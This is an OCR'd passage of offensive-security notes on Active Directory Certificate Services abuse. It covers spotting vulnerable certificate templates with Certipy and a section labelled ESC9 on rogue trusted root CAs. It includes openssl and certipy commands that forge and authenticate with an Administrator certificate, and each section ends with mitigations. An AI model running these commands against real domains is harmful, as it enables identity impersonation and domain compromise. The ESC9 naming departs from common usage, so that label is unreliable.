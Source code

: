 ## To Identify:
- Use Certipy or Certify to find templates that:
  - Have `ENROLLEE_SUPPLIES_SUBJECT = True`
  - Allow enrollment by low-privileged users
- Look for ability to specify UPN or SAN in request

```bash
certipy-ad find -u user -p pass -dc-ip <dc-ip>
```

## Mitigation:
- Disable subject supply unless required
- Restrict who can enroll in templates with `ENROLLEE_SUPPLIES_SUBJECT`
- Use certificate issuance approval workflows
- Monitor for suspicious certificate requests with spoofed UPNs or SANs

# ESC9 – Misconfigured CTL + Trusted Root Abuse
If the CA issues certificates that chain to a compromised or attacker-controlled root, and clients trust that chain, you can impersonate users or services by issuing your own certificates.

## Requirements:
- You control or can add a trusted root CA to a system (or domain)
- The Certificate Trust List (CTL) is misconfigured or overly permissive
- The system accepts chains from your malicious root

## Impact:
You can issue certificates that impersonate any identity and authenticate using them, even without compromising the issuing enterprise CA directly.

## Example:
```bash
# Use attacker CA to issue cert for Administrator@domain.local
openssl req -new -newkey rsa:2048 -keyout admin.key -out admin.csr -subj "/CN=Administrator@domain.local"
openssl x509 -req -in admin.csr -CA attacker-root.crt -CAkey attacker-root.key -out admin.crt -days 365 -CAcreateserial

# Convert to PFX and use with Certipy
openssl pkcs12 -export -out admin.pfx -inkey admin.key -in admin.crt
certipy-ad auth -pfx admin.pfx
```

## Mitigation:
- Use proper root CA validation (CTLs, GPOs)
- Monitor and restrict trusted root stores
- Avoid accepting external/untrusted chains

---